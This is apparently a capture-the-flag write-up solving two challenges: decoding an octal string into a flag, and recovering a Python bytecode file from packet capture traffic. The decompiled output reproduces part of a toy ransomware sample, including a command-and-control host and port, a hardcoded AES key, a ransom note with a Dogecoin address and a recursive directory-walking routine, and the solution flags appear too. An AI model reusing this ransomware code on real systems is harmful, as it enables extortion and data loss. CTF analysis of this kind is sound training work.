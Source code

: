 ###  crazy-number(easy)
*Hi edmund. I have some problem with this strange message (103124106173071067062144062060066070145144061071061064143065142146070143145064064060071071144061064066064067141065063143146063061061063146070145060062061060065071063146144071144066071061144145066067062064175). Can you help me to figure out what it is?*
This looks as ASCII so : 
![tor_is_the_best_hacker](10.png)
(No reverse needed here :D)  
Flag proof :
```bash
CTF{972d2068ed1914c5bf8ce44099d14647a53cf3113f8e0210593fd9d691de6724}
```
### peanutcrypt(medium)
*I was hosting a CTF when someone came and stole all my flags?

Can you help me get them back?*
SO ,we have a pcapng, and an enc flag...  
![torr?](11.png)  
File>Export Objects > Http   
![torrrthehaxxor](12.png)
PS found a strange package :  
![torrrrrr](13.png)
Save the file  
```bash
>>> file peanutcrypt_saved 
peanutcrypt_saved: python 3.8 byte-compiled
```
Hmmmm compiled python , we need to decompile the binary :  
```python
>>> mv peanutcrypt_saved peanutcrypt_saved.pyc
[ps@hekator]-[~/ctf/unbr3]
>>> uncompyle6 peanutcrypt_saved.pyc          
# uncompyle6 version 3.7.4
# Python bytecode 3.8 (3413)
# Decompiled from: Python 2.7.18 (default, Sep  5 2020, 11:17:26) 
# [GCC 10.2.0]
# Warning: this version of Python has problems handling the Python 3 "byte" type in constants properly.

# Embedded file name: main.py
# Compiled at: 2021-05-10 17:55:50
# Size of source mod 2**32: 2826 bytes
import random, time, getpass, platform, hashlib, os, socket, sys
from Crypto.Cipher import AES
c2 = ('peanutbotnet.nuts', 31337)
super_secret_encoding_key = '\x04NA\xedc\xabt\x8c\xe5\x11o\x143B\xea\xa2'
lets_not_do_this = True
doge_address = 'DCBk3WqNVfSSMe5kqwCFg7m6QDbjkT5nfR'
uid = 'undefined'

def write_ransom(path):
    ransom_file = open(path + '_ransom.txt', 'w')
    ransom_file.write(f"Your files have been encrypted by PeanutCrypt.\nSend 5000 DogeCoin to {doge_address} along with {uid} to recover your data")


def encrypt_reccursive(path, key, iv):
    for dirpath, dirnames, filenames in os.walk(path):
        for dirname in dirnames:
            write_ransom(dirname + '/')

```
